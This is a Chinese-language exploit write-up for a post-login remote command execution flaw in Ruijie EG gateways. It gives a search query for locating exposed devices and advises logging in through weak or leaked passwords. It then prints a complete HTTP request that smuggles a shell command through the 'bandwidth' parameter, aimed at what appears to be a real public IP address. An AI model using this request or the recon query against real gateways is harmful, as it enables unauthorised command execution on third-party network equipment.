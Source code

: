 # 锐捷EG易网关networksafe远程代码执行漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**

<font style="color:rgb(38, 38, 38);">锐捷 EG易网关cli存在后台远程命令执行漏洞。</font>

<font style="color:rgb(38, 38, 38);"> </font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

`锐捷EG易网关`  
**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**

`app="Ruijie-EG易网关"`  
<font style="color:rgb(38, 38, 38);">●登录页面</font>  


![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/95uANgjLfxI8FBL-/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-688088.webp)

  
**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**  
1、通过弱口令或账号密码泄露漏洞登录后台获取cookie  


![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/95uANgjLfxI8FBL-/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-937391.webp)

```plain
POST /itbox_pi/networksafe.php?a=set HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=bnrul7jabde55u5moo2a4q57a0; helpKey=home_sys;user=admin
X-Requested-With: XMLHttpRequest
Host: 117.40.253.197:4430
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 23

bandwidth=|id >nice.txt
```

![1714062988720-d555b428-cc56-4327-8549-75c4e54bcf23.png](./img/95uANgjLfxI8FBL-/1714062988720-d555b428-cc56-4327-8549-75c4e54bcf23-448577.png)

写入文件地址

```plain
/itbox_pi/nice.txt
```

![1714063009386-90ee202d-ad27-463e-8bd7-d83f66ef9d7a.png](./img/95uANgjLfxI8FBL-/1714063009386-90ee202d-ad27-463e-8bd7-d83f66ef9d7a-378601.png)



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ss4hw3pc2v25kryp>